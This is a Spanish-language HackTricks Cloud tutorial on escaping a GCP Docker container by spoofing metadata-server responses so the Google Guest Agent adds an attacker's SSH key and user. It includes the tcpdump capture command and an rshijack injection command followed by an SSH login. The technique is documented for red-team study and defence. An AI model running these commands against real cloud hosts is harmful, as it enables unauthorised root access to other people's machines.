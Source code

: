 # GCP - Escape de Docker en la Red

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos de github.

</details>
{% endhint %}

## Estado Inicial

En ambos informes donde se especifica esta técnica, los atacantes lograron obtener acceso **root** dentro de un contenedor **Docker** gestionado por GCP con acceso a la red del host (y las capacidades **`CAP_NET_ADMIN`** y **`CAP_NET_RAW`**).

## Explicación del Ataque

En una instancia de Google Compute Engine, la inspección regular del tráfico de red revela numerosas **solicitudes HTTP en texto plano** al **metadata instance** en `169.254.169.254`. El [**Google Guest Agent**](https://github.com/GoogleCloudPlatform/guest-agent), un servicio de código abierto, realiza frecuentemente tales solicitudes.

Este agente está diseñado para **monitorear cambios en los metadatos**. Notablemente, los metadatos incluyen un **campo para claves públicas SSH**. Cuando se agrega una nueva clave pública SSH a los metadatos, el agente la **autoriza** automáticamente en el archivo `.authorized_key`. También puede **crear un nuevo usuario** y agregarlo a **sudoers** si es necesario.

El agente monitorea cambios enviando una solicitud para **recuperar todos los valores de metadatos de forma recursiva** (`GET /computeMetadata/v1/?recursive=true`). Esta solicitud está diseñada para solicitar al servidor de metadatos que envíe una respuesta solo si hay algún cambio en los metadatos desde la última recuperación, identificado por un Etag (`wait_for_change=true&last_etag=`). Además, se incluye un parámetro de **timeout** (`timeout_sec=`). Si no ocurre ningún cambio dentro del tiempo de espera especificado, el servidor responde con los **valores sin cambios**.

Este proceso permite que el **IMDS** (Servicio de Metadatos de Instancia) responda después de **60 segundos** si no ha ocurrido ningún cambio de configuración, creando una posible **ventana para inyectar una respuesta de configuración falsa** al agente invitado.

Un atacante podría explotar esto realizando un **ataque Man-in-the-Middle (MitM)**, suplantando la respuesta del servidor IMDS e **insertando una nueva clave pública**. Esto podría permitir el acceso SSH no autorizado al host.

### Técnica de Escape

Si bien el spoofing ARP es ineficaz en las redes de Google Compute Engine, se puede utilizar una [**versión modificada de rshijack**](https://github.com/ezequielpereira/rshijack) desarrollada por [**Ezequiel**](https://www.ezequiel.tech/2020/08/dropping-shell-in.html) para la inyección de paquetes en la comunicación para inyectar el usuario SSH.

Esta versión de rshijack permite ingresar los números ACK y SEQ como argumentos de línea de comandos, facilitando la suplantación de una respuesta antes de la respuesta real del servidor de Metadatos. Además, se utiliza un [**pequeño script Shell**](https://gist.github.com/ezequielpereira/914c2aae463409e785071213b059f96c#file-fakedata-sh) para devolver una **carga útil especialmente diseñada**. Esta carga útil activa al Google Guest Agent para **crear un usuario `wouter`** con una clave pública especificada en el archivo `.authorized_keys`.

El script utiliza el mismo ETag para evitar que el servidor de Metadatos notifique inmediatamente al Google Guest Agent sobre diferentes valores de metadatos, retrasando así la respuesta.

Para ejecutar la suplantación, son necesarios los siguientes pasos:

1. **Monitorear solicitudes al servidor de Metadatos** usando **tcpdump**:
```bash
tcpdump -S -i eth0 'host 169.254.169.254 and port 80' &
```
Busca una línea similar a:
```
<TIME> IP <LOCAL_IP>.<PORT> > 169.254.169.254.80: Flags [P.], seq <NUM>:<TARGET_ACK>, ack <TARGET_SEQ>, win <NUM>, length <NUM>: HTTP: GET /computeMetadata/v1/?timeout_sec=<SECONDS>&last_etag=<ETAG>&alt=json&recursive=True&wait_for_change=True HTTP/1.1
```
2. Envía los datos de metadatos falsos con el ETAG correcto a rshijack:
```bash
fakeData.sh <ETAG> | rshijack -q eth0 169.254.169.254:80 <LOCAL_IP>:<PORT> <TARGET_SEQ> <TARGET_ACK>; ssh -i id_rsa -o StrictHostKeyChecking=no wouter@localhost
```
Este paso autoriza la clave pública, habilitando la conexión SSH con la clave privada correspondiente.

## Referencias

* [https://www.ezequiel.tech/2020/08/dropping-shell-in.html](https://www.ezequiel.tech/2020/08/dropping-shell-in.html)
* [https://www.wiz.io/blog/the-cloud-has-an-isolation-problem-postgresql-vulnerabilities](https://www.wiz.io/blog/the-cloud-has-an-isolation-problem-postgresql-vulnerabilities)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

